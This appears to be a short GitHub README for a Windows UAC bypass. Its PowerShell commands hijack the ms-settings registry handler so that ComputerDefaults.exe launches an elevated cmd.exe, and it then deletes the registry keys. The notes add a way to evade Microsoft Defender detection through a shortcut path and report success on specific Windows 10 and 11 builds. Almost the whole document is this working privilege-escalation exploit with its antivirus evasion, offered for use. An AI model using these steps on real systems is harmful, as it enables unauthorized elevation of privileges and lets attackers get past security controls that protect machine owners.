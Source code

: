### Create Registry Structure
```Powershell
New-Item "HKCU:\software\classes\ms-settings\shell\open\command" -Force

New-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "DelegateExecute" -Value "" -Force

Set-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "(default)" -Value "C:\Windows\System32\cmd.exe" -Force
```

### Start fodhelper.exe
```Powershell
Start-Process "C:\Windows\System32\ComputerDefaults.exe"
```

### Cleanup
```Powershell
Start-Sleep 3

Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
```


### Notes
- Defender is triggered when trying to set the registry value as "cmd.exe"
- This can be bypassed. Create a shortcut to "cmd.exe". Then use the path to that shortcut as the registry value.
- Worked on Windows 10 Pro N 21H2 Build 19044.1288 after disabling Defender.
- Worked on  Windows 11 Pro N 23H2 Build 22631.3737 after disabling Defender.